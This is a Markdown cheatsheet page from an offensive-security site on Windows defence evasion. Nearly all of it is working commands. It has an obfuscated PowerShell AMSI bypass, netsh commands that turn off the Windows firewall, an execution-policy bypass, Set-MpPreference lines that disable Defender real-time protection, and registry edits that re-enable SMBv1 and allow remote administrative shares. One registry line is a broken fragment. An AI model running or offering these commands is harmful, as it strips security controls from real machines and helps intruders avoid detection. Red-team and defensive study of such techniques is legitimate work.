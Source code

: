 ```yaml
---
layout: post
title: evasion / win
category: 03-evasion
parent: cheatsheets
modified_date: 2023-03-16
permalink: evasion/win
---
```


**Mitre Att&ck Entreprise**: [TA0005 - Defense Evasion](https://attack.mitre.org/tactics/TA0005/)

**Menu**
<!-- vscode-markdown-toc -->
* [amsi](#amsi)
* [enum](#enum)
* [enum-fw](#enum-fw)
* [Enabling Powershell](#EnablingPowershell)
* [Disabling Windows Defender](#DisablingWindowsDefender)
* [T1112 - Modify Registry](#T1112-ModifyRegistry)
* [sources](#sources)
	* [Evasion AV 101 by S3cur3Th1sSh1t](#EvasionAV101byS3cur3Th1sSh1t)

<!-- vscode-markdown-toc-config
	numbering=false
	autoSave=true
	/vscode-markdown-toc-config -->
<!-- /vscode-markdown-toc -->

## <a name='amsi'></a>amsi 
```powershell
# https://0x00-0x00.github.io/research/2018/10/28/How-to-bypass-AMSI-and-Execute-ANY-malicious-powershell-code.html
sET-ItEM ( 'V'+'aR' +  'IA' + 'blE:1q2'  + 'uZx'  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    GeT-VariaBle  ( "1Q2U"  +"zX"  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System'  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f'amsi','d','InitFaile'  ),(  "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
 ```

## <a name='enum'></a>enum
[dinvoke](https://hack.technoherder.com/dinvoke/)

* [palo cortex xdr](/edr/defeva#win-xdr)
* [windows defender]/edr/defeva#win-defender)

## <a name='enum-fw'></a>enum-fw
```powershell
# windows firewall showing / disabling config 
netsh advfirewall set allprofiles state off
netsh advfirewall show allprofiles
```

## <a name='EnablingPowershell'></a>Enabling Powershell
```
# powershell execution protection bypass
powershell -ep bypass

# powershell fullLanguage / Constrained language mode
# https://seyptoo.github.io/clm-applocker/
$Env:__PSLockdownPolicy
reg query "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Session Manager\Environment" /v __PSLockdownPolicy
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Session Manager\Environment" /v __PSLockdownPolicy /t REG_SZ /d ConstrainedLanguage /f
/v fDenyTSConnections /t REG_DWORD /d 1 /f
$ExecutionContext.SessionState.LanguageMode
$ExecutionContext.SessionState.LanguageMode ConstrainedLanguage
```

## <a name='DisablingWindowsDefender'></a>Disabling Windows Defender
```powershell
# Windows Defender disabling features
Set-MpPreference -DisableRealtimeMonitoring $true -Verbose
Set-MpPreference -DisableIOAVProtection $true
```


## <a name='T1112-ModifyRegistry'></a>T1112 - Modify Registry
```powershell
# win10 tampering: PS enable SMB v1
Set-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Services\LanmanServer\Parameters" SMB1 -Type DWORD -Value 1 –Force

# win10 tampering: PS allow administrative shares
Set-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System" -Name LocalAccountTokenFilterPolicy -Value 1 
```

## <a name='sources'></a>sources 
### <a name='EvasionAV101byS3cur3Th1sSh1t'></a>Evasion AV 101 by S3cur3Th1sSh1t
<iframe width="727" height="409" src="https://www.youtube.com/embed/_sPM9Er_194" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>
